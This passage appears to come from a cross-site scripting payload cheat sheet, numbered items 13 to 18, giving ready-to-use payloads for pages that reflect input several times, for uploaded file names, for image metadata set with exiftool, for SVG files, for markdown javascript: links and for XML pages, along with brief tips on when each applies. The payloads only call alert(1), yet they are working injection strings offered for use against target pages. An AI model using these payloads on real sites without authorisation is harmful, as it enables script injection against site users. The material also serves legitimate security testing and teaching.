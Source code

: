 * After input the payload
```html
<!DOCTYPE html>
<html>
<body>
'onload=alert(1)><svg/1='
...
'onload=alert(1)><svg/1='
</body>
</html>
```

13. Uses when there is multiple reflections on same page. (Triple Reflection)
```html
*/alert(1)">'onload="/*<svg/1='
`-alert(1)">'onload="`<svg/1='
*/</script>'>alert(1)/*<script/1='
```

* After input the payload
```html
<!DOCTYPE html>
<html>
<body>
*/alert(1)">'onload="/*<svg/1='
...
*/alert(1)">'onload="/*<svg/1='
...
*/alert(1)">'onload="/*<svg/1='
</body>
</html>
```

14. XSS in filename (File Upload) Use when uploaded filename is reflected somewhere in target page
```
"><svg onload=alert(1)>.jpeg
```

15. XSS in metadata (File Upload) Use when uploaded metada is reflected somewhere in target page (using exiftool)
```
$ exiftool -Artist='"><script>alert(1)</script>' dapos.jpeg
```

16. XSS with SVG file (File Upload)
```
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
```

17. XSS via markdown
```
[Click Me](javascript:alert('1'))
```

18. XSS in XML page
```
<a:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</a:script>
```
> Add a "-->" to payload if input lands in a comment section
